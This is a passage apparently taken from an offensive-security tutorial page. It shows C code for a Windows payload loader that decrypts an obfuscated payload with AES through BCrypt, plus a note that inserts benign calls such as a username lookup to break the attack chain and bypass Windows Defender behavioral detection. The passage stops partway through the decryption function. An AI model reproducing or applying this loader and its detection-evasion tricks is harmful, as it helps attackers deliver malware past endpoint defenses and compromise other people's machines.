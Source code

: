 ```c
        return -1;
    }

    // Freeing pDeobfuscatedPayload
    HeapFree(GetProcessHeap(), 0, pPlaintext);
    printf("[#] Press <Enter> To Quit ... ");
    getchar();
}
```
**Note:** Remember to insert some random methods within each of the above steps. This will help us break the attack chain and potentially bypass the behavioral detection capabilities of Windows Defender. For this demonstration, the method below for enumerating the username of the current machine has been inserted between each of the steps.
   

```c
        // Breaking attack chain
        TCHAR username[UNLEN + 1];  // UNLEN is the max username length
        DWORD username_len = UNLEN + 1;

        if (GetUserName(username, &username_len)) {
                wprintf(L"Current user: %s\n", username);
        }
        else {
                wprintf(L"GetUserName failed. Error code: %lu\n", GetLastError());
        }
```


Also note that the **key** and **IV** needs to be updated everytime the **HellShell** is executed. This makes our full code as:             

```c
#include <Windows.h>
#include <stdio.h>
#include <WinInet.h>

#pragma comment (lib, "Wininet.lib")
#pragma comment(lib, "Bcrypt.lib")


#define NT_SUCCESS(status)              (((NTSTATUS)(status)) >= 0)
#define KEYSIZE         32
#define IVSIZE          16

typedef struct _AES {
    PBYTE   pPlainText;             // base address of the plain text data
    DWORD   dwPlainSize;            // size of the plain text data

    PBYTE   pCipherText;            // base address of the encrypted data
    DWORD   dwCipherSize;           // size of it (this can change from dwPlainSize in case there was padding)

    PBYTE   pKey;                   // the 32 byte key
    PBYTE   pIv;                    // the 16 byte iv
}AES, * PAES;

// the real decryption implemantation
BOOL InstallAesDecryption(PAES pAes) {

    BOOL                            bSTATE = TRUE;

    BCRYPT_ALG_HANDLE               hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE               hKeyHandle = NULL;

    ULONG                           cbResult = NULL;
```